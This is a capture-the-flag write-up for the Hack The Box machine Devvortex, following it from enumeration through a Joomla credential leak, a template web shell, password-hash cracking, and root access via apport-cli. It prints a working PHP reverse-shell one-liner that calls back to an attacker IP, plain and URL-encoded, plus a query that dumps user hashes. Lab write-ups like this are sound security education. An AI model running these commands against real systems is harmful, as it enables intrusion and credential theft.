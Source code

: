```yaml
---
slug: /write-up/htb/easy/devvortex
pagination_next: null
pagination_prev: null
---
```


## Enumeration

First of all, we access via browser to the IP and got redirected to http://devvortex.htb/, let's add it to /etc/hosts.

Navigating a bit, we can see that it might be vulnerable to file inclusion, since requesting an non-existing page: http://devvortex.htb/aa.html showed a nginx server error

```bash
└─$ whatweb http://devvortex.htb                 
http://devvortex.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@DevVortex.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.242], JQuery[3.4.1], Script[text/javascript], Title[DevVortex], X-UA-Compatible[IE=edge], nginx[1.18.0]
```


Let's try to extract all the files we can find in the server with `fuff`:

```bash
ffuf -w /opt/github/SecLists/Discovery/Web-Content/common.txt:FUFF -u http://devvortex.htb/FUFF.html
```

So far, nothing weird appears to be accessible:

```
about                   [Status: 200, Size: 7388, Words: 2258, Lines: 232, Duration: 40ms]
contact                 [Status: 200, Size: 8884, Words: 3156, Lines: 290, Duration: 207ms]
do                      [Status: 200, Size: 7603, Words: 2436, Lines: 255, Duration: 38ms]
index                   [Status: 200, Size: 18048, Words: 6791, Lines: 584, Duration: 45ms]
portfolio               [Status: 200, Size: 6845, Words: 2083, Lines: 230, Duration: 42ms]
```

The images are served from http://devvortex.htb/images/hero-bg.jpg, if we try to access /images we get 403, let's try to fuzz the directories by checking if they return 403:

```
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 43ms]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 42ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 52ms]
                        [Status: 200, Size: 18048, Words: 6791, Lines: 584, Duration: 47ms]
```

Nothing so far, let's check what other ports are open with nmap:

```
└─$ nmap devvortex.htb   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-20 16:42 CET
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Let's check versions:

http

```
└─$ nmap devvortex.htb -p80 -sC -sV -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-20 16:43 CET
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: DevVortex
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.51 seconds
```

ssh

```
└─$ nmap devvortex.htb -p22 -sC -sV -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-20 16:43 CET
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.53 seconds
```

Nothing seems weird, let's try to scan for ALL ports opened, nothing else found.

Let's enumerate subdomains by using the Host header:

```bash
ffuf -w /opt/github/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.devvortex.htb" -u http://devvortex.htb -fl 8
```

Got this subdomain:

```
dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 88ms]
```

which looks like it's serving php content: `http://dev.devvortex.htb/index.php`

A simple scan with ffuf reveals interesting stuff:

```
.git/logs/              [Status: 403, Size: 3653, Words: 792, Lines: 70, Duration: 90ms]
configuration           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 39ms]
index                   [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 80ms]
```

With .git/log we can reconstruct the source code but it's returning a 403.
configuration.php looks like a blank page, but it's a PHP page, so it would be interesting to note it for future usage.

Let's enumerate directories:

```
home                    [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 465ms]
```

- http://dev.devvortex.htb/error.php  --> File not found. 
- http://dev.devvortex.htb/any.php  --> File not found.

Looks a possible LFI attack vector, checking /robots.txt reveals this is a Joomla CMS page.

Following the paths in the robots.txt, we can see this URL: http://dev.devvortex.htb/administrator/index.php

Now that we know it's a Joomla CMS page, let's make a Google search, and we found the following links:

- https://hackertarget.com/attacking-enumerating-joomla/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla
- https://vulncheck.com/blog/joomla-for-rce


## Foothold

```bash
curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```

According to the articles, this URLS leaks the user/password for the mysql database used by joomla. However, the same user/password has been re-used for the Joomla CMS admin user

Once we have admin access to joomla instance, we can modify a template php files to include RCE, e.g.:

http://dev.devvortex.htb/templates/cassiopeia/offline.php?cmd=id

Now let's send a reverse shell:

```bash
php -r '$sock=fsockopen("10.10.14.218",9001);popen("/bin/sh <&3 >&3 2>&3", "r");'
```
with URL-encode:

http://dev.devvortex.htb/templates/cassiopeia/offline.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.218%22%2C9001%29%3Bpopen%28%22%2Fbin%2Fsh%20%3C%263%20%3E%263%202%3E%263%22%2C%20%22r%22%29%3B%27

We got a reverse-shell, but to `www-data` user, in order to get the flag, we need to get access to `logan` user.

## Lateral movement

According to the article, the leaked credentials are used to connect the MySQL database, so, let's connect to the DB re-using the credentials.

We go to the users table and see the hashed passwords:

```bash
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
```

We can try to crack the hash with hashcat:

```bash
hashcat exfil/hash.txt -m 3200 -a 0 /usr/share/wordlists/rockyou.txt
```

and it worked, it reveal the password for the user logan, now we can connect with SSH and read the user flag.

## Privilege escalation

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Just do a quick search about the sudoable app and found a poc to get root access: https://github.com/diego-tella/CVE-2023-1326-PoC

I tired and it just worked giving root access and we got root flag.
